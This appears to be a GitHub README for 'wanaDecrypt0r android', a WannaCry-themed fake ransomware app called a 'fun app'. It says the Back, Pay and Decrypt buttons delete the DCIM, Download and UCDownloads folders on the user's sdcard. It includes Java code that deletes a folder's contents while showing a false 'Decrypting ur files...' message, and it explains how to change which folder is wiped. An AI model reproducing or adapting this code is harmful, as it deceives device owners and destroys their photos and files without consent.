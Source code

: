 #WanaDecrypt0r Android#

__Application Info :__

App Name : wanaDecrypt0r android

Developer : Wahyu Hidayat

----

__What is wanaDecrypt0r android ?__

wanaDecrypt0r android is a fun app with simple command to remove some folder on sdcard.

----

__What main funchtion of this app ?__

This is a main funchtion of wanaDecrypt0r android :

```
Back Pressed = Delete DCIM folder on sdcard
Pay btn pressed = Delete Download folder on sdcard
Decrypt btn pressed = Delete UCDownloads folder
```

You can change the folder what should deleted with edit the MainActivity.java of this source app example :

```
	// Decrypt button action
   // Change UCDownload folder if want to change path deleted
	public void dec(View v){
		File dec=new File(android.os.Environment.getExternalStorageDirectory()+"/UCDownloads");
		if (dec.isDirectory()){
			String [] childern = dec.list();
			for (int i=0;i<childern.length;i++){
				new File(dec, childern[i]).delete();
			}
		}
		dec.delete();
		Snackbar.make(findViewById(R.id.dec),"Decrypting ur files...",Snackbar.LENGTH_LONG).show();
	}
```

----

__Screenshots :__

![alt](ss1.png)

![alt](ss2.png)
